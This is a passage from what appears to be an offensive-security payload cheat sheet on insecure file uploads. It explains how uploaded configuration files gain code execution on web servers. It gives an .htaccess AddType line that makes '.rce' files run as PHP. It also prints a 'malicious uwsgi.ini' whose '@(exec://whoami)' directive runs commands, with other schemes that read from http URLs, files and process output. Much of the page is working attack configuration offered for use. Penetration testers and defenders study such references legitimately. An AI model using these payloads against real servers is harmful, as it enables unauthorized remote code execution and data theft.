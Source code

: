 ### Configuration Files

If you are trying to upload files to a :

* PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
* ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
* uWSGI server, take a look at the [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) trick to execute code.

Configuration files examples

* [Apache: .htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
* [IIS: web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
* [Python: \_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
* [WSGI: uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)

#### Apache: .htaccess

The `AddType` directive in an `.htaccess` file is used to specify the MIME (Multipurpose Internet Mail Extensions) type for different file extensions on an Apache HTTP Server. This directive helps the server understand how to handle different types of files and what content type to associate with them when serving them to clients (such as web browsers).  

Here is the basic syntax of the AddType directive:

```ps1
AddType mime-type extension [extension ...]
```

Exploit `AddType` directive by uploading an .htaccess file with the following content.

```ps1
AddType application/x-httpd-php .rce
```

Then upload any file with `.rce` extension.

#### WSGI: uwsgi.ini

uWSGI configuration files can include “magic” variables, placeholders and operators defined with a precise syntax. The ‘@’ operator in particular is used in the form of @(filename) to include the contents of a file. Many uWSGI schemes are supported, including “exec” - useful to read from a process’s standard output. These operators can be weaponized for Remote Command Execution or Arbitrary File Write/Read when a .ini configuration file is parsed:

Example of a malicious `uwsgi.ini` file:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
